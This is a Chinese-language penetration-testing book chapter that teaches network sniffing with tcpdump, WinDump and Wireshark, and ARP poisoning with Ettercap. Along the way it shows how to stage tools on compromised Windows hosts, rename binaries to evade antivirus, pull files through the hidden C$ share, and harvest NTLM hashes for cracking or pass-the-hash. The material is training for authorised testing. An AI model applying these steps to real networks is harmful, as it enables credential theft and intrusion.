










# 嗅探和欺骗

嗅探网络流量可以帮助你了解哪些用户正在使用你可以利用的服务，以及

IP 欺骗可以用来毒害系统的 DNS 或 ARP 缓存，以便将所有流量发送到中间人（例如你指定的主机）。嗅探和欺骗经常用于网络中的 Windows 端点，你需要了解坏人将要使用的技术。

+   **嗅探网络流量**：有许多工具可以嗅探网络流量，但它们都是基于同样的原理。捕获你的**网络接口卡**（**NIC**）可读的数据包。有数百种协议和数千个 TCP/IP 端口。可以肯定的是你不需要了解所有这些，但你可能会学习几十种。

+   **欺骗网络流量**：TCP/IP 系统是信任的。网络工作的一般假设是可信任的。当恶意者决定对网络数据包的组装方式玩一些把戏时会发生什么？这就是欺骗。例如，当一个 ICMP 数据包广播到大量主机时，但源 IP 地址已被伪造指向特定目标主机，所有发送广播数据包的主机都会向受害者发送意外的确认。这就是*Smurf 攻击*，它会占用受害者的机器。Smurf 攻击是许多拒绝服务攻击中的一种。

在本章中，我们将学习以下主题：

+   嗅探和欺骗网络流量

+   嗅探网络流量

+   欺骗网络流量

# 技术要求

在本章中，你至少需要两台运行 Windows 的机器，可以是实际机器也可以是虚拟机器，以及你的 Kali 机器。

# 嗅探和欺骗网络流量

你很可能已经注意到 Kali Linux 的座右铭：*你越安静，你就越能听到更多声音*。这是嗅探网络流量的核心。你悄悄地监听网络流量，复制每个数据包。每个数据包都很重要，否则它就不会存在。戴上你的安全帽，想一想这一点。你明白为什么明文发送密码是如此糟糕吗？例如，Telnet、FTP 和 HTTP 等协议会以明文发送密码，而不是加密哈希。任何数据包嗅探器都可以捕获这些密码，而不需要天才就可以搜索数据包捕获中的密码等术语。无需破解哈希；它就在那里。你可以通过从空气中提取他们的明文密码来给经理或客户留下深刻印象。坏人也使用相同的技术来侵入网络并窃取金钱和机密。

你复制的数据包中不仅包含密码。数据包嗅探器不仅用于这个目的。在寻找网络上的攻击者时，它们也很有用。你无法躲避数据包嗅探器。数据包嗅探器也非常适用于网络诊断。例如，网络运行缓慢可能是由于服务器上的一个网卡出现问题，正在向无人发送数据，或者一个运行失控的进程占用了其他进程的响应。

如果嗅探是监听网络，那么欺骗就是在网络上撒谎。你所做的是让攻击机器对网络撒谎，并假装成其他人。使用接下来描述的一些工具，并在攻击机器上的两个网络卡上，你甚至可以将流量传递到真实主机，并捕获两台机器之间的所有流量。这是一种**中间人**（**MitM**）攻击。在大多数渗透测试中，你实际上只需要获取密码哈希，而不需要进行完整的 MitM 攻击。只是欺骗而不传递流量将在 NetBIOS 的 ARP 广播中显示密码哈希。

黑客提示：

高级黑客实验室：如果您计划在您的网络上运行全面的 MitM 攻击，您将需要一个至少有两个网卡的主机，以及安装了 Kali Linux 的笔记本电脑。您的 MitM 主机可以是虚拟的或物理的服务器。

# 嗅探网络流量

在这里，我们将学习 Kali 标志的含义，*你变得越安静，你就能听到的越多*，以及可以从网络 passively 获得的信息。

# tcpdump

tcpdump 是一个简单的命令行嗅探工具，可以在大多数路由器、防火墙和 Linux/UNIX 系统上找到。也有一个由 micoOLAP 制作的可以在 Windows 上运行的版本，可以在[`www.microolap.com/products/network/tcpdump/`](http://www.microolap.com/products/network/tcpdump/)找到。它不是免费的，但有试用版本。这个版本的好处是它是一个简单的可执行文件，可以上传到系统并在不安装额外驱动程序的情况下使用。它可以在您有 shell 访问权限的破解系统上启动。您的 shell 必须具有系统或管理员级别的访问权限才能工作，因为没有管理员权限，网卡将无法以混杂模式运行。另一个数据包转储工具是**Windump.exe**，可以从[`www.winpcap.org/windump/install/`](http://www.winpcap.org/windump/install/)获取，您还将在那里找到**WinPcap.exe**，您需要在机器上安装 tcpdump 或 WinDump。

在 Linux/UNIX 系统和 Cisco 或 Juniper 等路由器上，它很可能是默认安装的。如果您在 Linux 系统上找不到它，它在每个发行版的软件库中都有。

tcpdump 最好不用于实时检查数据，而是用于捕获数据到文件中，以便以后使用诸如 Wireshark 之类的工具查看。由于其体积小、可移植性强，并且可以从命令行中使用，tcpdump 非常适合这项任务。

在下面的屏幕截图中，我们看到`tcpdump`在不保存到文件的情况下运行；请注意，我们可以看到数据包通过接口时的情况。

我们正在运行的命令是：

```
tcpdump -v -i vmnet1  
```

`-v` 将应用程序置于详细模式。`-i vmnet1` 告诉应用程序只捕获`vmnet1`接口上的数据包。按下 *Enter* 键，tcpdump 将开始捕获数据包并在屏幕上显示。要停止捕获，按下 *Ctrl* + *C*。

现在，在这种模式下，数据传输速度太快，无法进行实际使用，特别是在大型网络上，所以下一步我们将数据保存到文件中，这样我们就可以在闲暇时使用更好的查看工具查看数据：



现在我们将运行以下命令并将输出导向一个 `.pcap` 文件。请注意，屏幕上没有您之前看到的输出。数据现在正在写入文件而不是屏幕。运行以下命令：

```
tcpdump -v -i vmnet1 -w kalibook-cap-20150411.pcap  
```

请注意，我们在命令中添加了`-w kalibook-cap-20150411.pcap`。`-w`标志告诉应用程序将输出写入名为`kalibook-cap-20150411.pcap`的文件中。文件应该有一个描述性的名称，我还在文件名中包含了日期。如果您不从时间到时间进行测试并且不从系统中删除文件，同一系统上的几个这样的文件可能会令人困惑。`.pcap`是行业中用于数据包文件的标准文件扩展名，代表**Packet Capture File**。这个文件可以通过文件传输方法移动到另一台机器上：


请注意，此捕获是在名为**Wander**的机器上完成的。Wander 是我们网络的防火墙，如果可能的话，这是捕获网络流量的最佳位置。现在我们将把它传输到我们的 Kali 盒子上检查数据包。

首先，在我们的 Kali 机器上，我们需要启动 SSH 服务。正如我们之前所说，Kali 包括您在任何 Linux 服务器上都会找到的所有网络服务，但出于安全原因，默认情况下所有服务都被关闭，必须手动启动才能使用。我们将使用以下命令启动 SSH：

```
service ssh start  
```


我们可以看到 SSH 服务启动，并通过运行`netstat -tl`命令，我们可以看到 SSH 服务在所有接口上都在监听。现在我们将从防火墙传输文件到 Kali。

在 Kali 上，运行以下命令：

```
ifconfig 
```

这将显示你的 IP 地址：


现在，从防火墙上运行以下命令将文件传输到 Kali：

```
scp kalibook-cap-20150411.pcap root@192.168.202.129:kalibook/kalibook-cap-20150411.pcap  
```

通过输入`yes`接受密钥警告，然后在提示时输入 root 密码。

我在演示中犯了一个错误，试图将其发送到错误的目录。没有`workspace`目录。如果你看到这种类型的错误，这很可能是原因。请注意，我已将此文件直接发送到 Kali 盒子上的项目目录：


完成后，不要忘记关闭 SSH：

```
service ssh stop  
```

这对于内置 SSH 的系统来说很好，但是 Windows 呢？大多数人似乎使用`putty.exe`，但是你的被入侵的服务器系统不太可能安装 putty。我们将退而使用老式的 FTP。大多数 Windows 系统都带有 FTP 命令行实用程序。有时，注重安全的系统管理员会从计算机中删除`ftp.exe`，这会阻止这种类型的文件传输。通常它是存在的供你使用。如果不存在，请访问[`www.coreftp.com/`](http://www.coreftp.com/)并下载 Core FTP。他们有一个免费版本适用于此应用程序，并且您还可以获得更多功能的付费许可证。

现在我们将把`tcpdump`实用程序传输到我们的被入侵的 Windows 机器上，以捕获一些数据包。

首先，我们需要在 Kali 上设置 FTP 服务来回传输。我们将使用我们的朋友 Metasploit 来实现这一点。Metasploit 为此提供了一个易于使用的 FTP 服务。我们需要一个工作文件夹：

1.  在 Kali 桌面上打开计算机。

1.  在左侧列表中点击主页链接。

1.  右键单击文件夹区域，选择创建新文件夹。

1.  将其命名为`public`，然后右键单击文件夹，转到属性。

1.  点击权限选项卡，为组和其他人提供读/写访问权限以及创建和删除文件的能力，如下截图所示：


1.  如果使用命令行，则通过`mkdir public`创建一个目录。

1.  然后输入以下命令：

```
chmod 777 public
```

现在将`NDIS driver`和`tcpdump.exe`复制到`public`文件夹。您可能需要根据目标网络上可能使用的防病毒软件和/或 IDS/IPS 系统的情况来重命名 tcpdump 文件。我已将名称更改为`tdpdump.jpg`。`microolap_pssdk6_driver_for_ndis6_x86_v6.1.0.6363.msi`驱动文件通常可以通过。

现在在 Kali 盒子上启动 Metasploit，方法是转到应用程序| Kali Linux | 系统服务 | community/pro start 来启动服务。一旦服务启动，打开一个终端窗口，输入`msfpro`。

Metasploit 将启动。一旦 Metasploit 运行起来，进入你的项目工作空间。我的工作空间名为`kali-book-int-20150300`：

```
workspace kali-book-int-20150300  
```

现在我们将配置 FTP 服务器并启动它。要加载 FTP 服务器，请输入以下命令：

```
use auxiliary/server/ftp
 show options  
```

你会看到以下配置选项：


我们需要更改`FTPROOT`设置类型：

```
set FTPROOT /root/public
show options  
```

通过再次运行`show options`命令，我们可以检查我们的配置。我们已经准备好了。输入以下命令：

```
run  
```

你会看到以下内容：


你可以通过运行以下命令查看服务：

```
netstat-tl      
```


现在让我们将文件复制到我们的被入侵的 Windows 机器上，并捕获一些有用的数据包！我们将在 Windows 上使用 WinDump 进行此过程。

# WinDump（Windows tcpdump）

WinDump 是 Windows 的 tcpdump。它是开源的，属于 BSD 许可证。您可以在[`www.winpcap.org/windump/`](https://www.winpcap.org/windump/)下载。

您还需要 WinPcap 驱动程序，因此一定要从网站上获取它们。

WinDump 可以从命令行、PowerShell 或远程 shell 中工作。与 tcpdump 一样，它将写入一个文件，您可以下载以进行离线查看。

现在让我们将文件复制到我们的被入侵的 Windows 机器上。从命令行、Power Shell 或被入侵的远程 shell 中，登录到 Kali 上的 FTP 服务器。我的 Kali 盒子在`192.168.202.129`：

```
ftp 192.168.202.129  
```

系统将要求输入用户名。只需按*Enter*。它还会要求输入密码。再次只需按*Enter*，然后输入以下命令：

```
dir  
```

这将显示目录的内容：



如前面的截图所示，我们看到了我们的`WinPcap`驱动程序和我们的未伪装的`WinDump.exe`。要下载它们，只需输入以下命令：

```
get WinPcap_4_1_3.exe  
```

然后输入以下命令：

```
get WinDump.exe  
```

我们已经拿到了我们的文件。现在按照以下步骤退出：

```
quit  
```

如我们所见，现在我们通过输入以下命令在本地拥有了我们的文件：

```
dir  
```

我们还可以在 Metasploit 中的运行实例中看到文件正在传输到 Kali：


现在登录到您的被入侵的 Windows 机器，可以通过 RDP 或从 Metasploit 启动 VNC 会话。从桌面，转到您下载文件的文件夹，并双击`WinPcap.exe`文件，如下截图所示：


接下来，您将获得许可证窗口。点击“我同意”并继续：


下一个屏幕开始实际安装驱动程序。一定要保持复选框选中以自动运行。如果以后需要返回，这将非常有帮助：


完成后，您就可以开始捕获一些数据包了。

启动命令行窗口或 Power Shell 并转到您拥有 WinDump 的目录。我们将其放在`Downloads`文件夹中。运行以下命令：

```
.\WinDump.exe  
```

很快您将开始看到数据包通过接口传输。您在屏幕上看到的数据量取决于您的系统与网络通信的频率。显然，这是远远超出实时理解的数据量。此外，在此模式下，您只能看到数据包的标头信息，而无法看到完整的数据包及其信息。在下面的截图中，黄色下划线显示了正在运行的命令，绿色下划线显示了它正在监听运行接口。之后，您将看到数据包进入。

现在让我们将我们的捕获转储到文件中，以便真正了解我们拥有什么：



```
.\WinDump.exe -w Win7-dump-20150411.pcap  
```

-w 文件告诉 WinDump 将文件写入到`Win7-dump-20150411.pcap`文件中。如下截图所示，使用`-h`标志运行 WinDump 将有所帮助，如果您忘记了写标志。运行一段时间后，按*Ctrl* + *C*停止捕获。现在您可以看到我们有一个包含我们捕获数据包的文件：


捕获后，我们需要将文件发送回 Kali 以分析数据包。

Windows 文件共享适用于此。如果未启用打印机和文件共享，请启用它以共享文件并返回到您的 Kali 盒子。

黑客提示：

此过程可能会引发警报，如果网络管理员有类似 Tripwire 的东西来检查配置更改，或者设置了 ArcSight 来标记管理用户的记录操作。

Kali 在所有桌面环境的文件管理器中都内置了 SMB 文件共享和 NetBIOS 发现。您可以从文件管理器映射到 SMB 共享。在以下演示中，我们使用 MATE 桌面。从其文件管理器，您可以通过转到菜单栏中的 Go | Location...来映射 SMB 共享：


这将给您一个转到：地址栏。由于我们将使用 SMB 协议，我们将使用前缀`smb://`。其他服务类型的共享也可以使用这种方法映射，例如 SSH、FTP 和 NFS 共享。要连接到受害者机器并复制文件，请键入`smb://10.0.2.101/C$`。

然后按下*Enter*键。这对应隐藏的`C$`共享：



按下*Enter*后，会出现一个登录框。要登录共享，只需添加您拥有的 Windows 凭据，然后点击连接按钮。现在您将看到系统上的共享目录。深入文件夹并转到数据包捕获所在的目录。对我们来说，它将是`Users\Administrator\Downloads`：


现在我们已经找到文件所在的位置，再次点击计算机图标，打开另一个文件管理器窗口，然后转到您项目的证据目录。然后只需将文件拖放到 Kali 的驱动器上：


现在我们准备好读取一些捕获的数据包了。

# Wireshark

Wireshark 是数据包嗅探和分析网络数据包的行业标准。它不仅适用于 TCP/IP，还适用于几乎所有其他已知的协议和标准。Wireshark 有适用于每个知名操作系统的版本。在 Windows 上运行 Wireshark 需要本章前面提到的 WinPcap 驱动程序。在 Linux/UNIX 和 OSX 上，驱动程序通常已经存在。Wireshark 预装在 Kali 上。

Wireshark 是一个非常复杂的应用程序。已经有很多关于它的使用方法的书籍。我建议您获取一本并深入学习这个工具的使用。我们这里只会涵盖基础知识。

如果你真的思考一下，互联网是什么？有些人指着他们的网络浏览器说那里就是互联网。系统管理员可能会给你一个关于服务器和设备在网络上传输数据的长篇回答。每个人的回答都是正确的，但仍然没有完全理解它到底是什么。互联网就是数据包。没有数据包，信息就无法传输。大多数人没有意识到 TCP/IP 是两个独立工作的协议套件。有 IP，然后有 TCP 和 UDP，它们运行在 IP 之上。然后所有这些都运行在互联网帧之上。

我们稍后会回到 Wireshark。首先我们需要了解什么是数据包。

# 数据包

让我们看一个数据包。以下只是从捕获的数据流中提取的一小部分信息。请记住：这只是一个数据包！

哦，这里有一点历史。如果你看一下数据包的结构，再看一下旧电报消息的结构，你会注意到它们的结构是一样的。是的，数据包基本上就是一封电报。另外，记住莫尔斯电码基本上是一种四位二进制语言。

请注意，首先我们有**帧**。帧包含有关数据包的基本信息，您可以看到。Wireshark 捕获了传输线上的字节。这也保留了数据包的时间，用于在接收时重新组装数据包：

```
Frame 9: 188 bytes on wire (1504 bits), 188 bytes captured (1504 bits) 
  Encapsulation type: Ethernet (1) 
  Arrival Time: Apr 12, 2015 01:43:27.374355000 EDT 
  [Time shift for this packet: 0.000000000 seconds] 
  Epoch Time: 1428817407.374355000 seconds 
  [Time delta from previous captured frame: 0.002915000 seconds] 
  [Time delta from previous displayed frame: 0.002915000 seconds] 
  [Time since reference or first frame: 9.430852000 seconds] 
  Frame Number: 9 
  Frame Length: 188 bytes (1504 bits) 
  Capture Length: 188 bytes (1504 bits) 
  [Frame is marked: False] 
  [Frame is ignored: False] 
  [Protocols in frame: eth:ip:tcp:nbss:smb] 
  [Coloring Rule Name: SMB] 
  [Coloring Rule String: smb || nbss || nbns || nbipx || ipxsap || 
       netbios]
```

接下来，我们有数据包的 IP 部分。我们看到这包含了源和目标接口的 MAC 地址。您的 MAC 地址是您真实的机器地址。堆栈的 IP 部分进行路由，以便这两个 MAC 地址可以找到彼此：

```
Ethernet II, Src: Vmware_07:7e:d8 (00:0c:29:07:7e:d8), Dst: Vmware_45:85:dc (00:0c:29:45:85:dc) 
  Destination: Vmware_45:85:dc (00:0c:29:45:85:dc) 
    Address: Vmware_45:85:dc (00:0c:29:45:85:dc) 
    .... ..0\. .... .... .... .... = LG bit: Globally unique address (factory default) 
    .... ...0 .... .... .... .... = IG bit: Individual address (unicast) 
  Source: Vmware_07:7e:d8 (00:0c:29:07:7e:d8) 
    Address: Vmware_07:7e:d8 (00:0c:29:07:7e:d8) 
    .... ..0\. .... .... .... .... = LG bit: Globally unique address (factory default) 
    .... ...0 .... .... .... .... = IG bit: Individual address (unicast) 
  Type: IP (0x0800) 
Internet Protocol Version 4, Src: 192.168.202.130 (192.168.202.130), Dst: 192.168.202.128 (192.168.202.128) 
  Version: 4 
  Header length: 20 bytes 
  Differentiated Services Field: 0x00 (DSCP 0x00: Default; ECN: 0x00: Not-ECT (Not ECN-Capable Transport)) 
  Total Length: 174 
  Identification: 0x033f (831) 
  Flags: 0x02 (Don't Fragment) 
  Fragment offset: 0 
  Time to live: 128 
  Protocol: TCP (6) 
  Header checksum: 0xe0b6 [correct] 
    [Good: True] 
    [Bad: False] 
  Source: 192.168.202.130 (192.168.202.130) 
  Destination: 192.168.202.128 (192.168.202.128) 
  [Source GeoIP: Unknown] 
  [Destination GeoIP: Unknown] 
```

数据包的下一部分是 TCP 介入的地方，设置要使用的 TCP 或 UDP 协议类型以及用于传输数据包的分配源和目的端口。这个数据包是从客户端机器（源）发送的。从前面的 IP 部分，我们看到客户端 IP 地址是`192.168.202.130`。我们看到客户端的端口是`49161`。这个数据包被发送到`192.168.202.128`（目的地）的端口`445`。由于这是 TCP，返回路由也包括返回的流量。仅通过“目的地端口”信息，我们就可以知道这是某种类型的 SMB 流量：

```
Transmission Control Protocol, Src Port: 49161 (49161), Dst Port: microsoft-ds (445), Seq: 101, Ack: 61, Len: 134 
  Source port: 49161 (49161) 
  Destination port: microsoft-ds (445) 
  [Stream index: 0] 
  Sequence number: 101  (relative sequence number) 
  [Next sequence number: 235  (relative sequence number)] 
  Acknowledgment number: 61  (relative ack number) 
  Header length: 20 bytes 
  Flags: 0x018 (PSH, ACK) 
    000\. .... .... = Reserved: Not set 
    ...0 .... .... = Nonce: Not set 
    .... 0... .... = Congestion Window Reduced (CWR): Not set 
    .... .0.. .... = ECN-Echo: Not set 
    .... ..0\. .... = Urgent: Not set 
    .... ...1 .... = Acknowledgment: Set 
    .... .... 1... = Push: Set 
    .... .... .0.. = Reset: Not set 
    .... .... ..0\. = Syn: Not set 
    .... .... ...0 = Fin: Not set 
```

在数据包信息中，0 表示否，1 表示是。

```
  Window size value: 63725 
  [Calculated window size: 63725] 
  [Window size scaling factor: -1 (unknown)] 
  Checksum: 0xf5d8 [validation disabled] 
  [SEQ/ACK analysis] 
    [This is an ACK to the segment in frame: 8] 
    [The RTT to ACK the segment was: 0.002915000 seconds] 
    [Bytes in flight: 134] 
```

我们看到这是使用 SMB 协议的 NetBIOS 会话：

```
NetBIOS Session Service 
  Message Type: Session message (0x00) 
  Length: 130 
SMB (Server Message Block Protocol) 
  SMB Header 
    Server Component: SMB 
    [Response in: 10] 
    SMB Command: NT Create AndX (0xa2) 
    NT Status: STATUS_SUCCESS (0x00000000) 
    Flags: 0x18 
    Flags2: 0xc807 
    Process ID High: 0 
    Signature: 0000000000000000 
    Reserved: 0000 
    Tree ID: 2049 
    Process ID: 2108 
    User ID: 2048 
    Multiplex ID: 689 
  NT Create AndX Request (0xa2) 
    [FID: 0x4007] 
    Word Count (WCT): 24 
    AndXCommand: No further commands (0xff) 
    Reserved: 00 
    AndXOffset: 57054 
    Reserved: 00 
    File Name Len: 44 
    Create Flags: 0x00000016 
    Root FID: 0x00000000 
```

接下来，我们已经被授予了我们正在请求的数据的访问权限。我们现在可以看到这个数据包涉及访问一个文件。发出此请求的用户具有查看所请求文件的以下权限。我们可以从前面的代码中看到，文件请求已经获得了成功的状态。

```
    Access Mask: 0x00020089 
      0... .... .... .... .... .... .... .... = Generic Read: Generic read is NOT set 
      .0.. .... .... .... .... .... .... .... = Generic Write: Generic write is NOT set 
      ..0\. .... .... .... .... .... .... .... = Generic Execute: Generic execute is NOT set 
      ...0 .... .... .... .... .... .... .... = Generic All: Generic all is NOT set 
      .... ..0\. .... .... .... .... .... .... = Maximum Allowed: Maximum allowed is NOT set 
      .... ...0 .... .... .... .... .... .... = System Security: System security is NOT set 
      .... .... ...0 .... .... .... .... .... = Synchronize: Can NOT wait on handle to synchronize on completion of I/O 
      .... .... .... 0... .... .... .... .... = Write Owner: Can NOT write owner (take ownership) 
      .... .... .... .0.. .... .... .... .... = Write DAC: Owner may NOT write to the DAC 
      .... .... .... ..1\. .... .... .... .... = Read Control: READ ACCESS to owner, group and ACL of the SID 
      .... .... .... ...0 .... .... .... .... = Delete: NO delete access 
      .... .... .... .... .... ...0 .... .... = Write Attributes: NO write attributes access 
      .... .... .... .... .... .... 1... .... = Read Attributes: READ ATTRIBUTES access 
      .... .... .... .... .... .... .0.. .... = Delete Child: NO delete child access 
      .... .... .... .... .... .... ..0\. .... = Execute: NO execute access 
      .... .... .... .... .... .... ...0 .... = Write EA: NO write extended attributes access 
      .... .... .... .... .... .... .... 1... = Read EA: READ EXTENDED ATTRIBUTES access 
      .... .... .... .... .... .... .... .0.. = Append: NO append access 
      .... .... .... .... .... .... .... ..0\. = Write: NO write access 
      .... .... .... .... .... .... .... ...1 = Read: READ access 
    Allocation Size: 0 
    File Attributes: 0x00000000 
    Share Access: 0x00000007 SHARE_DELETE SHARE_WRITE SHARE_READ 
    Disposition: Open (if file exists open it, else fail) (1) 
    Create Options: 0x00000044 
    Impersonation: Impersonation (2) 
    Security Flags: 0x03 
    Byte Count (BCC): 47 
    File Name: \My Videos\desktop.ini 
```

所有前面的代码都是为了让一台计算机知道另一台计算机上存在一个名为`\My Videos\desktop.ini`的文件。发送了 47 字节的信息。现在这不是实际的文件，而只是文件的列表。基本上，这将是使文件图标出现在你的窗口管理器中的数据包。发送这么少的数据确实需要很多工作：

```
No.   Time    Source        Destination      Protocol Length Info 
   10 9.431187  192.168.202.128    192.168.202.130    SMB   193  NT Create AndX Response, FID: 0x4007 
```

现在我们对数据包有了一些了解，让我们回到 Wireshark。

# 使用 Wireshark

让我们打开它并打开我们的捕获。首先，转到应用程序 | Kali Linux | 前 10 个安全工具 | wireshark。当它启动时，它会警告你以`root`身份运行。只需点击通过。如果愿意，可以勾选不再显示这些警告的复选框。当你使用 Kali 时，你将始终以`root`身份工作。

另一个警告：永远不要在生产 Linux 机器上这样做。除了 Kali 之外，永远不要以`root`身份登录和运行。Wolf 在他的 Kali Linux 测试盒中添加了一个标准用户和`sudo`，只有在实际运行测试时才以`root`身份运行。



警告后，窗口将打开。正如我们所看到的，我们有一个非常好的界面。你不仅可以阅读捕获的数据，还可以从列出的本地接口捕获数据包。在右侧，你会看到一个在线帮助的部分。如果你迷失了并且需要帮助，那就是你去的地方。你会在网上找到大量的帮助：



让我们打开我们的捕获。点击文件 | 打开，你会得到一个文件菜单。导航到你的文件所在的位置，然后点击打开：



现在捕获已经打开，所有捕获的数据都列在顶部屏幕上。每个列表都是一个数据包。你所看到的是数据包的头信息，它的源，目的地和协议类型。

通过在顶部屏幕上点击一个数据包，该数据包的完整信息将显示在中间屏幕上。这将是我们之前在分解数据包时看到的信息。这就是你会看到这些信息的地方。实际上，这是以人类可读的形式呈现的数据包。在底部屏幕上，我们有实际的原始数据包以机器语言显示。通过在中间屏幕上的信息行上点击，Wireshark 将以蓝色突出显示机器语言字符串，显示该代码在数据包中的位置：


从第一个屏幕上看，我们可以看到整体的流量。我们看到一台机器发出了 DHCPv6 Solicit 呼叫，但没有从任何地方得到响应。嗯，IPv6 在这个网络上必须被关闭了。接下来，我们看到`192.168.202.128`和`192.168.202.130`之间来回的 SMB 通信。仅从头部信息，我们就可以看到这个传输是用于在`192.168.202.128`上使用 SMB 的文件信息。仅仅通过查看头部信息，我们就可以知道`.130`上的用户可以访问`.128`：


那么好东西在哪里？在下面的截图中，我们有一个`SMB NTLMSSP`数据包，甚至可以看到这是用于账户`IVEBEENHAD\Administrator`的。通过选择数据包，我们可以深入到数据包中，找到密码的 NTLM 哈希值。这本身可以用于传递哈希的利用工具。您还可以将这个哈希值带入离线密码破解工具，比如 John the Ripper 或 Hydra。请注意，您还可以在底部屏幕的原始数据包信息中看到该值：


Wireshark 最好的功能之一是**搜索**功能。这个功能的细节足够写一本书。您可以使用过滤器字段右侧的 Expression...按钮构建表达式。从简单的过滤器，比如`ip != 10.0.0.232`（用于切出所有发送到您的 Kali 盒子的流量），或者通过在过滤器字段中输入 SMTP 来检查意外的 SMTP 流量，学习最需要的过滤器时会有无尽的乐趣。在线帮助会解释很多内容，就像所有良好的知识库一样，它也会引发新的问题：


# 欺骗网络流量

互联网上有几种欺骗的定义：

+   电子邮件欺骗：最常见的定义是通过使用假电子邮件地址伪装成不同的人。在尝试**钓鱼攻击**时，这很有效，受害者会收到一封假装来自他们的银行或零售商的电子邮件。

+   域名欺骗：可以欺骗域名，在网络或个人工作站上毒害路由表。其工作原理是用户在浏览器地址栏中输入的域名被错误地指向错误的 IP 地址。当受害者访问[`bankarmenia.com/`](http://bankarmenia.com/)时，他们最终会进入一个看起来与亚美尼亚银行网站完全相同的钓鱼网站，但实际上并不是。这用于收集用户的凭证，以进行盗窃。

+   域名错误欺骗：黑客购买常见错误的域名，比如`https://www.yaahoo.com/`。他们建立一个看起来像[`www.yahoo.com/`](https://www.yahoo.com/)的网站，并从所有的拼写错误中获益。

+   IP 欺骗：制作精心制作的数据包，目的是伪装成不同的机器，或者为了隐藏数据包的来源。

# Ettercap


可爱的标志，非常具有启发性。是的，在蜘蛛背上有一个无线路由器。Ettercap 有一些用于无线网络的很棒的插件。我们现在不会涵盖无线网络，但这是需要知道的。Ettercap 可以嗅探和捕获数据，就像 tcpdump 和 Wireshark 一样，但它还可以欺骗网络流量，捕获有趣的信息，并将其传输到文件中。图形界面可以在应用程序 | Kali Linux | 嗅探/欺骗 | 网络嗅探器 | ettercap-graphical 中找到，这将启动 Ettercap：


以下截图显示了 Ettercap 的图形界面。我们首先通过选择菜单栏中的 Sniff | Unified Sniffing...来启动统一嗅探：



现在我们被问到要使用哪个接口。通常情况下，如果需要的话，它将是默认的。通过下拉框，您可以选择系统上的任何接口。点击确定：

警告！

在使用 SSH 隧道时，如果从远程机器使用，Ettercap 将中断隧道连接。它们似乎无法很好地协同工作。


一旦配置了统一嗅探，您会注意到菜单栏已经发生了变化。

首先我们需要记录消息。在菜单栏中选择 Logging | Log user messages...：


然后会弹出一个窗口，用于为消息输出命名文件。给它一个文件名，然后点击确定：


接下来，我们需要开始嗅探流量。转到开始 | 开始嗅探。这里发生的情况与 tcpdump 和 Wireshark 执行的功能相同。目前，Ettercap 只是被动地捕获数据包。在开始嗅探之前，您可以在日志菜单下设置 Ettercap，以便保存所有捕获的数据包以供以后检查。您只需将捕获保存到一个`.pcap`文件中，就像在 tcpdump 和 Wireshark 中一样。

通常，只保存用户消息的输出就足够进行渗透测试。在渗透测试中，您主要是在寻找密码和登录凭据。消息日志将捕获这些信息。有时，为了进行额外的侦察，您可以保存整个捕获：


一旦嗅探开始，我们需要扫描主机。在菜单栏中选择主机 | 扫描主机。这将扫描本地网络以查找可用的主机。请注意，还有一个选项是从文件加载....您可以选择此选项，并从文本文件中加载主机 IP 地址列表。当在大型网络上时，这是一个很好的选择，您只想欺骗文件服务器和域控制器的流量，而不是欺骗工作站。这将减少网络流量。ARP 欺骗可能会产生大量流量。如果是大型网络，这种流量可能会减慢网络。如果您在秘密测试，这种流量会让您被发现：


在下面的截图中，我们看到了我们从扫描中获得的主机列表。由于这是一个小型网络，我们将欺骗所有主机。我们看到有五个主机列出，包括 MAC 地址。请记住其中一个是测试机器：


我们已经准备好对水进行投毒并查看浮出的东西。转到 Mitm | Arp poisoning...然后点击它：



然后，您将获得一个窗口来设置要执行的投毒类型。选择嗅探远程连接。然后点击确定：


以下屏幕显示了 DNS 投毒正在进行中：


投毒完成后，数据将通过 Ettercap 界面发送，显示管理员用户及其 NTLM 密码哈希。这已经足够开始使用 John the Ripper 或 Hashcat 对密码哈希进行破解。

黑客提示：

即使管理员密码失败，您仍然应该破解它们。管理员用户可能已经忘记了他们登录的机器，而失败的密码可能在系统的其他地方起作用。



在大多数安全策略中，Windows 系统设置为在用户尝试五次或六次连接后拒绝连接。这个策略保护用户帐户免受暴力破解密码或猜测密码的攻击。这将阻止暴力破解密码，但正如您所看到的，这个策略对这种漏洞没有影响。您已经有了管理员密码，所以您可以第一次登录。

Ettercap 的一个很棒的功能是它还可以在命令行下使用 Ncurses 界面。这在使用 SSH 从远程系统工作时非常方便。使用*Tab*键和箭头键在菜单中移动，使用*Enter*键进行选择。

# 命令行上的 Ettercap

在许多情况下，您将无法使用 Ettercap 的图形界面。当您从一个破解的 Linux 机器上发动攻击时，您可能会发现它根本没有图形桌面。在这种情况下，您可以使用 Ettercap 的 curses 版本或纯文本版本。这在使用 SSH 从远程系统工作时非常方便。使用*Tab*键和箭头键在菜单中移动，使用*Enter*键进行选择：


要从命令行启动 Ettercap，您需要向命令添加一些标志；就像大多数 Linux 命令一样，您可以使用`ettercap -help`来获取标志及其含义的列表。对于基本用法，您可以使用以下命令：

```
root@kalibook :~# ettercap -C -m ettercap-msg.txt   
```

`-C`标志以 Ncurses 模式启动 Ettercap。我已经包含了`-m ettercap-mgs.txt`标志，将消息输出导出到`ettercap-msg.txt`文件。如果您想保存整个捕获，添加`-w ettercap-capture.pcap`。这将保存完整的捕获，以便以后在需要时将其导入 Wireshark。我发现使用命令行标志保存输出更容易。

下一张截图显示了基于 CLI 的 Curses 界面。


下一张截图显示了基于 CLI 的纯文本界面：


# 总结

在本章中，您将学习如何使用 tcpdump、WinDump 和 Wireshark 嗅探网络，以及如何过滤协议和 IP 地址。之后，您将使用 Ettercap 进行欺骗和 ARP 欺骗。

在我们的下一章中，我们将利用从 ARP 欺骗中获得的信息积极地攻击我们的目标，并学习如何在线和离线破解密码。

# 进一步阅读

+   有关 Wireshark 的更多信息，请访问其文档网站：[`www.wireshark.org/docs/`](https://www.wireshark.org/docs/)

+   有关 tcpdump 的更多信息，请访问其网站：[`www.tcpdump.org/#documentation`](http://www.tcpdump.org/#documentation)

+   有关 Ettercap 的更多信息，请访问其网站：[`www.ettercap-project.org/`](https://www.ettercap-project.org/)
